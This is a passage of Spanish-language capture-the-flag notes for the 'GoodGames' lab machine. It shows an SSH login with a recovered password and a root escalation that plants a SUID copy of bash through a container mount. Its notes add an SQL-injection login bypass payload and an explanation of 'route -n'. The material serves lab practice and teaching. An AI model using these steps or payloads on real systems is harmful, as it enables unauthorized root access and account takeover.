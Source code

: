 Nos da como resultado al ejecutar el escaneo de puertos, que tiene el 22 y el 80 abiertos
![[Goodgames20.png]]

Como vemos que es el puerto 22 de SSH abierto, vamos a intentar conectarnos con las credenciales de augustus que tenemos
```
ssh augustus@172.19.0.1
Contraseña: superadministrator
```

![[Goodgames21.png]]


*En la maquina de augustus:*
	Usamos el comando `cp /bin/bash .` en el directorio /home/augustus
*Desde el contendor:*
	 `chown root:root bash`
	 `chmod 4755 bash`
Ahora volvemos a entrar a la maquina de augustus, con ssh, y ejecutamos la bash con privilegios, ya seriamos root, asi que despues cateamos el archivo con la flag
```shell
./bash -p
cat /root/root.txt
```
![[Goodgames22.png]]






## 📝 Notas

- Intentar saltar el login mediante una inyección SQL como por ejemplo admin' or 1 = 1 -- -
   La vulnerabilidad permite acceder como el primer usuario de la base de datos, usualmente `admin`.

## Comando route -n
Nos sirve para encontrar la ip de la maquina host, estando dentro del contenedor, 

`route -n`
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         172.19.0.1      0.0.0.0         UG    0      0        0 eth0
172.19.0.0      0.0.0.0         255.255.0.0     U     0      0        0 eth0


| `Gateway` | `172.19.0.1` → La **puerta de enlace** o **router** al que se enviará ese tráfico. |     |
| --------- | ---------------------------------------------------------------------------------- | --- |


| `Genmask` | `0.0.0.0` → Máscara para una red "catch-all" (todas las IPs).        dependiendo el contexto, 0.0.0.0 vale todas las ips, pero en general si |
| --------- | -------------------------------------------------------------------------------------------------------------------------------------------- |


| `Flags` | `UG` → `U` indica que la interfaz está **activa (up)**, y `G` que usa una **gateway**. |
| ------- | -------------------------------------------------------------------------------------- |
